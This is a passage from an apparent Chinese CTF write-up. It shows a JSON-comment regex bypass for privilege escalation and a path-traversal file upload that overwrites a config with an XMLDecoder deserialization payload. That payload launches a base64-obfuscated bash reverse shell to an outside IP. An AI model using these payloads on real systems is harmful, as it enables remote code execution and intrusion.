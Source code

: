 - json的内联注释绕过正则匹配
`{"username":"admin","password":"password","role":"test","role"/**/:"admin"}
匹配到前一个role后替换,json解析时后面的会覆盖前面的值
- 思路二
`{"username":"admin","password":"pass","role":"admin"/*,"role":"test"*/}`
替换了最后一个role,但是属于注释部分也不会影响结果


继续读取文件,在`baseDao.class`里
```java
    public static void getConfig() throws FileNotFoundException {
        HashMap map;
        Object obj = new XMLDecoder(new FileInputStream(System.getenv("CATALINA_HOME") + "/webapps/ROOT/db/db.xml")).readObject();
        if ((obj instanceof HashMap) && (map = (HashMap) obj) != null && map.get("url") != null) {
            driver = (String) map.get("driver");
            url = (String) map.get("url");
            username = (String) map.get("username");
            password = (String) map.get("password");
        }
    }
```

> 其中 System.getenv(“CATALINA_HOME”) 可以使用前面的文件包含读取 /proc/self/environ 得到为 /usr/local/tomcat。因此可以尝试将 db.xml 覆盖为恶意代码后使用注册业务触发 XMLDecoder 反序列化。


```http
POST /home/upload HTTP/1.1
Host: node4.anna.nssctf.cn:28037
Content-Length: 645
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://node4.anna.nssctf.cn:28037
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxPRQbJFRE2whRMVh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://node4.anna.nssctf.cn:28037/home/upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DA6CA22348163EF6A9305C5BBCAA12AD
Connection: close

------WebKitFormBoundaryxPRQbJFRE2whRMVh
Content-Disposition: form-data; name="file"; filename="../../db/db.xml"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<java>
<object class="java.lang.&#80;rocessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>{echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMy4yMTMuNS4xODUvODAgMD4mMSc=}|{base64,-d}|{bash,-i}</string>
</void>
</array>
<void method="start"/>
</object>
```